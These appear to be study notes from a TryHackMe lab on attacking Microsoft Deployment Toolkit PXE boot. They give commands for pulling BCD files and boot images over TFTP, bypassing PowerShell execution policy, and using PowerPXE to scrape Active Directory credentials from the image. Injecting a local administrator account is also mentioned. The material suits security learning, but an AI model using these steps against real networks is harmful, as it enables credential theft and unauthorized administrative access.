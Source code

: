 # Microsoft Deployment Toolkit

- Microsoft Deployment Toolkit (MDT) is a Microsoft service that assists with automating the deployment of Microsoft Operating Systems (OS)
- Usually, MDT is integrated with Microsoft's System Center Configuration Manager (SCCM), which manages all updates for all Microsoft applications, services, and operating systems.

## PXE Boot
- MDT can be configured in various ways, we will focus exclusively on a configuration called Preboot Execution Environment (PXE) boot.
- Large organisations use PXE boot to allow new devices that are connected to the network to load and install the OS directly over a network connection
- PXE boot is usually integrated with DHCP, which means that if DHCP assigns an IP lease, the host is allowed to request the PXE boot image and start the network OS installation process.
- Once the process is performed, the client will use a TFTP connection to download the PXE boot image. We can exploit the PXE boot image for two different purposes:
  - Inject a privilege escalation vector, such as a Local Administrator account, to gain Administrative access to the OS once the PXE boot has been completed.
  - Perform password scraping attacks to recover AD credentials used during the install.
  
### Password Scraping

- Initial step of attack is not provided. We will skip the part where we attempt to request an IP and the PXE boot preconfigure details from DHCP.
- The first piece of information regarding the PXE Boot preconfigure you would have received via DHCP is the IP of the MDT server.
- The second piece of information you would have received was the names of the BCD files. These files store the information relevant to PXE Boots for the different types of architecture. Might be on a website

1. To ensure that all users of the network can use SSH, start by creating a folder with your username and copying the powerpxe repo into this folder:
```bash
C:\Users\THM>cd Documents
C:\Users\THM\Documents> mkdir <username>
C:\Users\THM\Documents> copy C:\powerpxe <username>\
C:\Users\THM\Documents\> cd <username>
```
2. we need to perform is using TFTP and downloading our BCD file to read the configuration of the MDT server. TFTP is a bit trickier than FTP since we can't list files. Instead, we send a file request, and the server will connect back to us via UDP to transfer the file. Hence, we need to be accurate when specifying files and file paths. The BCD files are always located in the /Tmp/ directory on the MDT server. We can initiate the TFTP transfer using the following command in our SSH session:
```bash
tftp -i <THMMDT IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd
```
- use ```nslookup thmmdt.za.tryhackme.com``` to see the ip

3. Use powerpxe to recover the locations of the PXE Boot images from the BCD file
``` bash
C:\Users\THM\Documents\Am0> powershell -executionpolicy bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.   

PS C:\Users\THM\Documents\am0> Import-Module .\PowerPXE.ps1
PS C:\Users\THM\Documents\am0> $BCDFile = "conf.bcd"
PS C:\Users\THM\Documents\am0> Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : <PXE Boot Image Location>
<PXE Boot Image Location>
```
4. Use the located PXE Boot image and download the pxeboot.wim
``` bash
tftp -i 10.200.24.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim" pxeboot.wim
```
5. PXE Boot Image [Attacks](https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/)
  - Inject local administrator so we will have admin access once booted
  - Recovery credentials

- To recovery credential
```bash
Get-FindCredentials -WimFile pxeboot.wim
```



